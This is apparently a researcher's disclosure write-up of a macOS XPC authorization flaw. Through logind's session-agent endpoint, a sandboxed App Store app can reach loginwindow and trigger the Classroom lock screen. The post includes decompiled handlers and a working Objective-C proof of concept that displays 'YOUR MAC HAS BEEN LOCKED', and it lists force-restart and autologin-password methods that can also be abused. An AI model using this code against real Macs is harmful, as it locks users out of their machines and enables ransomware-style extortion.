


How I turned a Mac App Store app into ransomware using Apple's own Classroom feature

PoC in action — screen fully locked with custom text, all input blocked
Finding the target
I was going through the list of XPC services reachable from within the macOS App Sandbox, looking for anything interesting. Most services do proper entitlement checks on incoming connections — you need a specific com.apple.private.* entitlement, which App Store apps can never get, so the door is shut.
Then I noticed com.apple.logind.
logind is a small daemon that sits at /System/Library/CoreServices/logind and manages login sessions. It talks to loginwindow (the process that draws the login screen, handles logout, user switching, etc.) through an internal XPC endpoint. Nothing about it screams "attack surface" — it's boring infrastructure plumbing.
But when I opened the binary in IDA, the connection handler immediately caught my eye.
The two-tier gate
logind's XPC listener is implemented through login.framework — a private framework at /System/Library/PrivateFrameworks/login.framework. The listener delegate is LFlogindListenerDelegate, and its listener:shouldAcceptNewConnection: method does this:
// login.framework — LFlogindListenerDelegate
__int64 -[LFlogindListenerDelegate listener:shouldAcceptNewConnection:](
void *self, int a2, int a3, id connection)
{
// Check if connecting process has the private entitlement
entitlementValue = [connection valueForEntitlement:
@"com.apple.private.logind.spi"];
if (entitlementValue
&& [entitlementValue isKindOfClass:[NSNumber class]]
&& [entitlementValue boolValue])
{
// Privileged path: full LFLogindListenerInterface (40 methods)
interface = [[self listener] privilegedInterface];
remoteInterface = [NSXPCInterface interfaceWithProtocol:
@protocol(LFLogindConnectionInterface)];
}
else
{
// Unprivileged path: LFLogindListenerLookupInterface
interface = [[self listener] interface];
remoteInterface = nil;
}
[connection setExportedInterface:interface];
[connection setExportedObject:[[self listener] messageHandler]];
if (remoteInterface)
[connection setRemoteObjectInterface:remoteInterface];
[connection resume];
return 1; // <-- always accepts
}Two things are happening here:
- If you have
com.apple.private.logind.spi— you get the fullLFLogindListenerInterfacewith 40 privileged methods. - If you don't have it (i.e., you're a normal app) — you get
LFLogindListenerLookupInterface, a smaller interface.
And either way, the connection is accepted. return 1 at the bottom. No rejection. Every process on the system can connect to logind.
The question becomes: what's on that "smaller" interface?
The endpoint leak
Among the methods available without any entitlement is SMGetSessionAgentConnection:. Here's what it does:
// logind — SessionManagement
void -[SessionManagement SM_GetSessionAgentConnection:](self, SEL, reply)
{
currentConn = [NSXPCConnection currentConnection];
auditSession = [currentConn auditSessionIdentifier];
err = [self SM_GetSessionRoleAccount:auditSession
forRole:@"SessionAgent"
endPoint:&endpoint];
reply(err, endpoint); // <-- sends back the NSXPCListenerEndpoint
}It takes the caller's audit session, looks up the "SessionAgent" role for that session, and hands back the raw NSXPCListenerEndpoint. No entitlement check. No authorization. Just: "here's the endpoint, have fun."
That endpoint belongs to loginwindow.
What's a SessionAgent?
When loginwindow starts, it registers itself with logind as the "SessionAgent" for the current login session. This is done through the privileged interface — loginwindow holds com.apple.private.logind.spi, so it gets access to SMRegisterSessionAgent:reply:.
loginwindow passes its NSXPCListenerEndpoint to logind. logind stores it. Then when anyone calls SMGetSessionAgentConnection:, logind gives out that stored endpoint.
The design assumption is clear: only logind itself (or other privileged processes) would ever use this endpoint. But it isn't access-controlled.
loginwindow's open door
So we have the endpoint. What happens when we connect to it?
// login.framework — LFSessionAgentListenerDelegate
__int64 -[LFSessionAgentListenerDelegate listener:shouldAcceptNewConnection:](
void *self, int a2, int a3, id connection)
{
interface = [[self listener] interface];
[connection setExportedInterface:interface];
messageHandler = [[self listener] messageHandler];
[connection setExportedObject:messageHandler];
remoteInterface = [NSXPCInterface interfaceWithProtocol:
@protocol(LFSessionAgentConnectionInterface)];
[connection setRemoteObjectInterface:remoteInterface];
[connection resume];
return 1; // <-- accepts everything unconditionally
}Zero authentication. No SecTaskCopyValueForEntitlement. No audit_token check. No PID check. Not even a log message. Just: set up the interface, resume, return 1.
This makes sense from the original design perspective — this listener was only meant to receive connections from logind through the stored endpoint, and logind is a trusted system daemon. Why would you authenticate a connection coming from yourself?
The problem is that logind hands out that endpoint to anyone who asks.
44 methods on loginwindow
The interface exposed is LFSessionAgentListenerInterface, and loginwindow implements every method through SessionAgentCom. Here's the full list — 44 methods, all callable from a sandboxed app:
Force logout. Force restart. User switching. Screen lock. Autologin password manipulation. And the one I found most amusing for a demo — SACClassroomLock*.
The Classroom Lock
Apple Classroom is an app for teachers to manage student devices. One of its features is "Lock Screen" — it puts a fullscreen overlay on the student's Mac showing a message, and blocks all keyboard and mouse input using a CGEventTap. The student can't dismiss it, can't Cmd+Tab, can't do anything. The teacher unlocks it when they're ready.
The implementation lives in loginwindow, behind the SAC methods. Here's SACClassroomLockShow::
// loginwindow — SessionAgentCom
void -[SessionAgentCom SACClassroomLockShow:](self, SEL, reply)
{
// Log entry with connection info (no auth check here either)
log = sub_100061620(off_10016B810[0]);
if (os_log_type_enabled(log, OS_LOG_TYPE_DEFAULT)) {
connectionInfo = [self debugLogConnectionInfo];
os_log(log, "%s | Enter, %@",
"-[SessionAgentCom SACClassroomLockShow:]", connectionInfo);
}
// Get PID of the caller (for logging only, NOT for auth)
currentConn = [NSXPCConnection currentConnection];
callerPID = [currentConn processIdentifier];
// Show the lock screen on the main thread
dispatch_sync(dispatch_get_main_queue(), ^{
// creates CGEventTap, shows fullscreen overlay
});
reply(0); // success
}It logs who called it. It records the PID. But it doesn't check anything. No "is this actually Apple Classroom?" question. Just show the lock.
The PoC
The exploit is trivially simple. From a regular sandboxed macOS app:
// 1. Connect to logind — no entitlement needed
NSXPCConnection *c = [[NSXPCConnection alloc]
initWithMachServiceName:@"com.apple.logind" options:0];
c.remoteObjectInterface = [NSXPCInterface
interfaceWithProtocol:@protocol(LFLogindLookup)];
[c resume];
// 2. Ask for the SessionAgent endpoint — logind hands it over
[[c remoteObjectProxy] SMGetSessionAgentConnection:
^(int err, NSXPCListenerEndpoint *endpoint) {
// 3. Connect directly to loginwindow — zero auth
NSXPCConnection *lw = [[NSXPCConnection alloc]
initWithListenerEndpoint:endpoint];
lw.remoteObjectInterface = [NSXPCInterface
interfaceWithProtocol:@protocol(LFSessionAgent)];
[lw resume];
// 4. Set caption and show the lock screen
id agent = [lw remoteObjectProxy];
[agent SACClassroomLockSetCaption:@"YOUR MAC HAS BEEN LOCKED"
reply:^(int e) {}];
[agent SACClassroomLockShow:^(int e) {}];
}];That's it. About 15 lines of Objective-C. A Mac App Store app — sandboxed, notarized, no special entitlements — locks the user's entire screen with custom text. The user cannot interact with the computer at all until the app decides to call SACClassroomLockHide:.
And of course, since we have all 44 methods, the "ransomware" angle is just the flashiest demo. You could also force-restart the machine, force-logout the user, switch to a different user session, or mess with the autologin password.
Apple's response

"We're unable to identify a security issue in your report."
macOS 26.5 beta (25F5053d). Tested April 2026.